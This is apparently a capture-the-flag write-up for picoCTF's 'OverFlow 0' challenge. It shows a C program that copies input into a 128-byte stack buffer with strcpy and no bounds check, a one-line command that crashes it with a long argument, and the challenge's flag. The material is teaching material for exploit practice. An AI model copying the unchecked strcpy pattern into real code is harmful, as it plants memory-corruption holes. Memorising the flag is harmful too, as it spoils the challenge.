 # OverFlow 0

## Question
This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6 on the shell server. Source.

## Solution
Lets look at the source. 
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

As we can see, there is a vuln function that uses the unsafe function strcpy with a buffer length of 128. Since the sigsegv_handler would print the flag when there is a segmentation error, just overflowing the stack would be enough. Lets do it by typing ``./vuln `python3 -c "print('a'*2000)"` ``

Flag: `picoCTF{3asY_P3a5y4a888b8e}`